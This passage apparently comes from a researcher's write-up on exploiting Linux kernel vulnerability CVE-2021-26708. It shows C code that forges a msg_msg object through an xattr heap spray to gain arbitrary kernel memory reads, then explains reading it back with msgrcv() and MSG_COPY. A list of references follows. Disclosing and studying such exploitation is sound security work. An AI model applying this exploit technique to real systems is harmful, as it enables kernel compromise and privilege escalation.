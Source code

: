 ```c
#define PAYLOAD_SZ 40

void adapt_xattr_vs_sysv_msg_spray(unsigned long kaddr)
{
    struct msg_msg *msg_ptr;

    xattr_addr = spray_data + PAGE_SIZE * 4 - PAYLOAD_SZ;

    /* Don't touch the second part to avoid breaking page fault delivery */
    memset(spray_data, 0xa5, PAGE_SIZE * 4);

    printf("[+] adapt the msg_msg spraying payload:\n");
    msg_ptr = (struct msg_msg *)xattr_addr;
    msg_ptr->m_type = 0x1337;
    msg_ptr->m_ts = ARB_READ_SZ;
    msg_ptr->next = (struct msg_msgseg *)kaddr; /* set the segment ptr for arbitrary read */
    printf("\tmsg_ptr %p\n\tm_type %lx at %p\n\tm_ts %zu at %p\n\tmsgseg next %p at %p\n",
           msg_ptr,
           msg_ptr->m_type, &(msg_ptr->m_type),
           msg_ptr->m_ts, &(msg_ptr->m_ts),
           msg_ptr->next, &(msg_ptr->next));
}
```

But how do we read the kernel data using this crafted `msg_msg`? Receiving this message requires manipulations with the System V message queue, which breaks the kernel because the `msg_msg.m_list` pointer is invalid (0xa5a5a5a5a5a5a5a5 in my case). My first idea was setting this pointer to the address of another good message, but that caused the kernel to hang because the message list traversal can't finish.

Reading the [documentation][20] for the `msgrcv()` syscall helped to find a better solution: I used `msgrcv()` with the `MSG_COPY` flag:

```
MSG_COPY (since Linux 3.8)
        Nondestructively fetch a copy of the message at the ordinal position  in  the  queue
        specified by msgtyp (messages are considered to be numbered starting at 0).
```

This flag makes the kernel copy the message data to the userspace without removing it from the message queue. Nice! `MSG_COPY` is available if the kernel has `CONFIG_CHECKPOINT_RESTORE=y`, which is true for Fedora Server.

<center><img src="/img/pistol_weapon.jpg" width="80%"></center><br/>


[0]: https://nvd.nist.gov/vuln/detail/CVE-2021-26708
[1]: http://zer0con.org/#speaker-section
[2]: https://youtu.be/EC8PFOYOUgU
[3]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/af_vsock.c
[4]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c0cfa2d8a788fcf45df5bf4070ab2474c88d543a
[5]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=6a2c0962105ae8ceba182c4f616e0e41d7755591
[6]: https://github.com/google/syzkaller/
[7]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/virtio_transport_common.c#L490
[8]: https://arxiv.org/abs/2009.01694
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c518adafa39f37858697ac9309c6cf1805581446
[10]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[11]: https://cve.mitre.org/cve/request_id.html
[12]: https://seclists.org/oss-sec/2021/q1/107
[13]: https://en.wikipedia.org/wiki/Heap_spraying
[14]: https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html
[15]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=09fc68dc66f7597bdc8898c991609a48f061bed5
[16]: https://googleprojectzero.blogspot.com/2020/06/a-survey-of-recent-ios-kernel-exploits.html
[17]: https://man7.org/linux/man-pages/man2/msgsnd.2.html
[18]: https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html
[19]: https://duasynt.com/blog/linux-kernel-heap-spray
[20]: https://man7.org/linux/man-pages/man2/msgrcv.2.html
[21]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[22]: https://www.hermitagemuseum.org/wps/portal/hermitage?lng=en
[23]: https://github.com/a13xp0p0v/linux-kernel-defence-map
[24]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety
[25]: https://grsecurity.net/
[26]: https://a13xp0p0v.github.io/2020/11/30/slab-quarantine.html
[27]: https://github.com/a13xp0p0v/kconfig-hardened-check#questions-and-answers